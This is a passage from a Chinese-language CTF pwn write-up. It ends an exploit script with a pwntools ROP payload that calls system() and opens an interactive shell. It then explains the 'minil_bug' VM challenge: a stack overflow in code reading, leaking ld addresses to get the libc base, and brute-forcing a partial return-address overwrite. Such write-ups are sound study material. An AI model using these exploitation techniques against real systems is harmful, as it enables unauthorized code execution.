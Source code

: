 ```python

payload3 = p64(0)*3 + p8(0xff)*7 + p8(0) + p64(0) + p64(0x4015d3) + p64(addr_str) + p64(0x4015d4) +  p64(addr_system)

p.sendline(payload3)

p.interactive()

```


# minil_bug | limiter | done

checksec 一下， 全部都有，给了一个 dockerfile，运行 dockerfile 后发现报错，仔细一看，里面有两行注释掉的下载命令，下面有两行没注释的解压命令，把解压命令注释掉，下载命令取消注释，即可成功运行。（出题人说他的网不好下载不下来，就搞了个压缩包，结果压缩包忘给了）

下载下来的 simple-virtual-machine-C 里面有源码!!!!!（逆了一天的向发现里面有完整的源码。。。。），当然，源码要用给的 patch 文件 patch 一下才是真源码。

直接查看源码，程序模拟了一台虚拟机，虚拟机具有 push ， pop 等等功能，（暂时不管）

主函数部分先是将虚拟机要执行的 code 读入栈中，注意这里的读取是有漏洞的，每次读入字节，rsp 就会增加已读入总字节数 * 4。

code 只有 128 个字节的空间，但如果读入方式恰当，可以写到 128 * 4 字节处。

当然，读入指令后并创建虚拟机后，虚拟机就会开始执行，虚拟机会按顺序（ 4 byte 一条）执行指令，注意，如果指令的值不在 1 - 18 之间（包括 1 和 18 ），程序会直接退出，因此我们的读入的指令不能轻易断开，否则中间的值如果不满足条件则会引起崩溃。

在储存指令的栈空间查看一下，其栈的布局是这样的：

>0x4                     |   <- code 起始地址

>0x1           |

>0x7ffff7fb7540    |   <-     注意这两个地址，是 ld 和一个匿名数据段的地址， 他们的高 4 字节是相同的，随便泄露一个的低 4 字节

>0x7ffff7ffe160     |   <-     拼接一下就能获得 ld 或者匿名数据段的地址，他们和 libc 的相对偏移是固定的，故想办法泄露他们就能

>0x7fffffffdd01     |            成功获得 libc 基址

>0x7ffff7ffd9e8     |

>0                         |

>4 skip

>。。。。。。。

>canary                 |

>0                         |

>0x7ffff7de80b3    |    <-- libc_start_main + 243    这里是执行函数的返回地址，当我们第一次写入代码时，并不知道 libc 或者主函数

>0x50                    |        地址，由于其也是 libc 函数的地址，只要找一个低 3 十六进制位与其不同，其余相同的 gadget 地址，由于每次

>0x7ffffffffdfe8      |     输入最少一字节，故第四个 16 进制位不能保证一致（会由于随机化改变，低 3 十六进制位不会变），但只有 16

>0x1f7fac7a0         |   种情况，可以爆破。找到的 gadget 地址低 3 十六进制为 6be， pop rax； pop rbx； pop rsi； ret；

>0x55555555d52    |    <-- main          这样跳到 gadget，pop 完成后，返回地址变成了下面的 main，即可成功返回主函数
